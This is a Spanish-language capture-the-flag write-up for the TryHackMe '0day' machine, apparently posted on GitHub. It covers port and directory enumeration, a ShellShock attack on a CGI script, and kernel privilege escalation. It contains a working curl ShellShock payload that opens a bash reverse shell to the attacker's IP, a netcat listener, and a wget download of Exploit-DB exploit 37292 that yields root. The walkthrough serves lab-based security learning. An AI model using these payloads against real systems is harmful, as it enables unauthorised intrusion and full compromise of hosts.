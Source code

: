 # 0day

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/c7d93313-132b-4d1d-a439-891f724167a1)


***
- Source: https://tryhackme.com/room/0day
- OS: Linux
- Dificultad: Medium
- IP: No estática
- Temas: `ShellSock`, `Kernel Explotation`
***

- Realizamos un escaneo de puertos:

~~~bash
┌──(kali💀Dedsec)-[~]
└─$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.34.44
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-08 16:10 EST
NSE: Loaded 46 scripts for scanning.
Initiating SYN Stealth Scan at 16:10
Scanning 10.10.34.44 [65535 ports]
Discovered open port 22/tcp on 10.10.34.44
Discovered open port 80/tcp on 10.10.34.44
Completed SYN Stealth Scan at 16:10, 15.75s elapsed (65535 total ports)
Initiating Service scan at 16:10
Scanning 2 services on 10.10.34.44
Completed Service scan at 16:10, 6.47s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.34.44.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:10
Completed NSE at 16:10, 0.87s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:10
Completed NSE at 16:11, 0.81s elapsed
Nmap scan report for 10.10.34.44
Host is up, received user-set (0.20s latency).
Scanned at 2024-02-08 16:10:36 EST for 24s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.25 seconds
           Raw packets sent: 76938 (3.385MB) | Rcvd: 76187 (3.047MB)
~~~

- Vemos que tenemos un servicio http por el puerto 80, decidí enumerar directorios pues no vi nada relevante en la página:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ gobuster dir -u http://0day.thm -w /usr/share/wordlists/dirb/big.txt -t 50 --add-slash --no-error -k               
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://0day.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess/           (Status: 403) [Size: 285]
/.htpasswd/           (Status: 403) [Size: 285]
/admin/               (Status: 200) [Size: 0]
/backup/              (Status: 200) [Size: 1767]
/cgi-bin/             (Status: 403) [Size: 283]
/cgi-bin//            (Status: 403) [Size: 283]
/css/                 (Status: 200) [Size: 924]
/icons/               (Status: 403) [Size: 281]
/img/                 (Status: 200) [Size: 930]
/js/                  (Status: 200) [Size: 923]
/secret/              (Status: 200) [Size: 109]
/server-status/       (Status: 403) [Size: 289]
/uploads/             (Status: 200) [Size: 0]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
~~~

- Tenemos un directorio `cgi-bin`.
- Si la versión es antigua y hay un binario, podremos aplicar explotación de `ShellShock` desde el lado del servidor.

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ gobuster dir -u http://0day.thm/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --add-slash --no-error -k -x pl,sh,cgi
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://0day.thm/cgi-bin/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              pl,sh,cgi
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/test.cgi/            (Status: 200) [Size: 13]
~~~

- Tenemos un binario `test.cgi`.
- Podemos realizar una petición `GET` al binario, aplicando el ataque `shellshock`, a través de ciertos parámetros en el header.

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ curl http://0day.thm/cgi-bin/test.cgi -H 'User-Agent: () { :; }; echo; /bin/bash -c "bash -i >& /dev/tcp/10.2.60.167/4444 0>&1"'
~~~

- Nos ponemos en escucha y recibimos una conexión:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ nc -lvnp 4444                        
listening on [any] 4444 ...
connect to [10.2.60.167] from (UNKNOWN) [10.10.34.44] 44676
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ 
~~~

- Realizamos un tratamiento de TTY:

~~~bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
~~~

***

<h3>PrivEsc:</h3>
- Enumerando un poco la máquina encontré algo curioso, una versión de Kernel bastante antigua:

~~~bash
www-data@ubuntu:/tmp$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
~~~

- Conozco esta versión, podemos aplicar el [exploit de kernel 37292](https://www.exploit-db.com/exploits/37292)
- Lo transferimos desde nuestra máquina hosteando un server de Python.
- En nuestra máquina atacante:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/0day]
└─$ python3 -m http.server 80
~~~

- En la máquina victima:

~~~bash
www-data@ubuntu:/tmp$ wget http://10.2.60.167/exploit.c
~~~

- Si lo intentamos compilar, vemos que nos arroja un problema:

~~~bash
www-data@ubuntu:/tmp$ gcc exploit2.c exploit2.o
gcc: error trying to exec 'cc1': execvp: No such file or directory
~~~

- Para arreglar esto, exporté el valor de la `PATH` a uno por defecto:

~~~bash
export PATH=$PATH:/usr/bin:/bin:/usr/sbin:/sbin:/usr/lowww-   
~~~

- Y una vez hecho esto, ejecutamos el exploit compilado:

~~~bash
www-data@ubuntu:/tmp$ gcc 37292.c -o exploit.o
www-data@ubuntu:/tmp$ ./exploit.o 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
